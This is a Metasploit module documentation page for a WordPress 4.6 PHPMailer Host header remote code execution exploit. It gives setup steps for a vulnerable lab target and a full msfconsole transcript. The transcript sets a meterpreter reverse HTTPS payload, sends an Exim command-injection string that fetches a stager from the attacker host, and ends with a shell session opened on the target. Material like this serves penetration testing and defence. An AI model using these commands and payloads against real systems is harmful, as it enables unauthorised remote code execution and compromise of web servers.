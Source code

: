 ## Intro

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command. You do not need to install
PHPMailer, as it is included as part of the WordPress install.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

Please set the payload options. Some sane defaults are set, but you'll
want to be as specific as possible.

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.152
rhost => 192.168.33.152
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set payload linux/x64/meterpreter_reverse_https
payload => linux/x64/meterpreter_reverse_https
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.7 installed at http://192.168.33.152/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/gzayjqwr
[*] Local IP: http://192.168.1.7:8080/gzayjqwr
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${reduce{get /gzayjqwr http/1.0}{${run{/bin/echo}}}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{$item$value$value}}}}}}
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Redirecting stageless connection from /Dbyg6-yOlTQo9i70ceSG0wDDy1JAZjOS5ToQyoXw4zXBnF with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.152:35138) at 2017-05-10 01:07:35 -0500
[*] Sending /bin/rm -f /tmp/ovcixpnf
[*] Server stopped.

meterpreter > 
```
